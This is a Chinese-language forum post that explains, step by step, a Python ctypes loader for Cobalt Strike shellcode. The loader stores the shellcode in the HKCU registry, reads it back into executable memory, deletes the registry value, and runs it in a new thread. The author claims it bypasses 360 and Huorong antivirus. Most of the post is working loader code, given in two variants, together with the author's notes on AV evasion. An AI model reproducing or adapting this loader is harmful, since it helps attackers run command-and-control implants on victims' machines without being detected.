 前言
==

最近毕业了，开始了新的打工生活，知识也被榨干了，更新比较慢

前几天不是发了几个UUID、MAC、ipv4等加载器吗，这几个原理都一个样，就是转换内容然后写到内存中去，说白了只要能往内存写东西的函数都能写成加载器

这几天研究api操作注册表想绕过360等，突然想起注册表是可以存储二进制内容的，然后就发现了RegQueryValueExA函数是可以读取 注册表中内容的，所以我们只要将读取的内容存到申请的内存中去执行即可。

本文环境使用py2.7，通过ctypes库调用RegQueryValueExA函数实现上线cs

注册表
===

注册表就不多介绍了，乱七八糟的我也讲不懂，自己百度  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-6eb1edfcdbd2e1678839df2b06471296353dbffb.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-6eb1edfcdbd2e1678839df2b06471296353dbffb.png)  
但主要一点，我们操作注册表是需要权限的，但HKLM\_CURRWNT\_USER表是不需要权限的，所以我们主要操作这个表

函数介绍
====

在读取注册表内容之前，注册表得有我们的shellcode内容啊，命令行操作reg又不行，拦的死死地，所以只能用api进行写入我们的shellcode

### RegSetValueExA

该函数在Advapi32.dll库中，可以设置注册表项下指定值的数据和类型。

函数原型：

<https://docs.microsoft.com/en-us/windows/win32/api/winreg/nf-winreg-regsetvalueexa>

```php
LSTATUS RegSetValueExA(
  HKEY       hKey,
  LPCSTR     lpValueName,
  DWORD      Reserved,
  DWORD      dwType,
  const BYTE *lpData,
  DWORD      cbData
);
```

hKey为上面五个表其中一种，这里操作HKLM\_CURRWNT\_USER，在py里对应值是-2147483647

lpValueName是在表里新建一个值

dwType是值的类型，在注册表里不同的值类型储存不同格式的数据，我们需要储存二进制数据，所以值类型为REG\_BINARY，py里对应数值为3

lpData这是我们需要写入的数据，这里写入shellcode

cbData是数据的大小，必须将shellcode全部写入

```php
buf = b"\xfc\x00..."
ctypes.windll.Advapi32.RegSetValueExA(-2147483647, "test", None, 3, buf,len(buf))
```

此时看看注册表里的内容是不是shellcode  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-647be9cd32252c547cc07930d87858fcda27c77b.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-647be9cd32252c547cc07930d87858fcda27c77b.png)

### RegQueryValueExA

该函数在Advapi32.dll库中，检索与打开的注册表项关联的指定值名称的类型和数据。

函数原型：

<https://docs.microsoft.com/en-us/windows/win32/api/winreg/nf-winreg-regqueryvalueexa>

```php
LSTATUS RegQueryValueExA(
  HKEY    hKey,
  LPCSTR  lpValueName,
  LPDWORD lpReserved,
  LPDWORD lpType,
  LPBYTE  lpData,
  LPDWORD lpcbData
);
```

hKey对应上面注册表的组  
lpValueName对应上面值的名称

lpType接收查到的值的类型，可以为0表示不需要此内容

lpData则接收我们查到的值的数据，也就是我们的shellcode，这里需要VirtualAlloc申请一块内存来接收此数据，这里根据需要的指针类型将内存改为LPBYTE的指针

```php
LPBYTE = POINTER(c_byte)
ctypes.windll.kernel32.VirtualAlloc.restype = LPBYTE
ptr = ctypes.windll.kernel32.VirtualAlloc(0,800,0x3000,0x40)
```

lpcbData则是shellcode的长度，这里长度我们需要先执行一下RegQueryValueExA来获取一下shellcode长度，然后继续直接RegQueryValueExA来去读内容到申请的内存

```php
data_len = DWORD()
ctypes.windll.Advapi32.RegQueryValueExA(-2147483647, "test", 0, 0, 0, byref(data_len))
ctypes.windll.Advapi32.RegQueryValueExA(-2147483647,"test",0,None,ptr,byref(data_len))
```

这时shellcode已经写入到内存中去了，继续老一套创建线程运行即可

当写完内存，以防万一将写入的注册表进行删除

```php
ctypes.windll.Advapi32.RegDelete ValueA(-2147483647, "test")
```

测试
==

环境py2.7 ,使用cs生成64位shellcode

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-10d4d301e86d9f1778a3ab2c75ea396ed55ec897.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-10d4d301e86d9f1778a3ab2c75ea396ed55ec897.png)  
这里测试了火绒，360，成功上线

```php
import ctypes
from ctypes import *
from ctypes.wintypes import *

buf = b"\xfc\x48..."
ctypes.windll.Advapi32.RegSetValueExA(-2147483647, "test", None, 3, buf,len(buf))

LPBYTE = POINTER(c_byte)
ctypes.windll.Activeds.AllocADsMem.restype = LPBYTE
ptr = ctypes.windll.Activeds.AllocADsMem(len(buf))
data_len = DWORD()
ctypes.windll.Advapi32.RegQueryValueExA(-2147483647, "test", 0, 0, 0, byref(data_len))
ctypes.windll.Advapi32.RegQueryValueExA(-2147483647,"test",0,None,ptr,byref(data_len))
ctypes.windll.Advapi32.RegDelete ValueA(-2147483647, "test")
ctypes.windll.kernel32.VirtualProtect(ptr, len(buf), 0x40, ctypes.byref(ctypes.c_long(1)))

handle = ctypes.windll.kernel32.CreateThread(0,0,ptr,0,0,ctypes.pointer(ctypes.c_int(0)))
ctypes.windll.kernel32.WaitForSingleO bject(handle,-1)
```

```php
import ctypes
from ctypes import *
from ctypes.wintypes import *

buf = b"\xfc\x48\x83..."
ctypes.windll.Advapi32.RegSetValueExA(-2147483647, "test", None, 3, buf,len(buf))

LPBYTE = POINTER(c_byte)
ctypes.windll.Activeds.ReallocADsMem.restype = LPBYTE
ptr = ctypes.windll.Activeds.ReallocADsMem(0,len(buf),len(buf))
data_len = DWORD()
ctypes.windll.Advapi32.RegQueryValueExA(-2147483647, "test", 0, 0, 0, byref(data_len))
ctypes.windll.Advapi32.RegQueryValueExA(-2147483647,"test",0,None,ptr,byref(data_len))
ctypes.windll.Advapi32.RegDelete ValueA(-2147483647, "test")
ctypes.windll.kernel32.VirtualProtect(ptr, len(buf), 0x40, ctypes.byref(ctypes.c_long(1)))

handle = ctypes.windll.kernel32.CreateThread(0,0,ptr,0,0,ctypes.pointer(ctypes.c_int(0)))
ctypes.windll.kernel32.WaitForSingleO bject(handle,-1)
```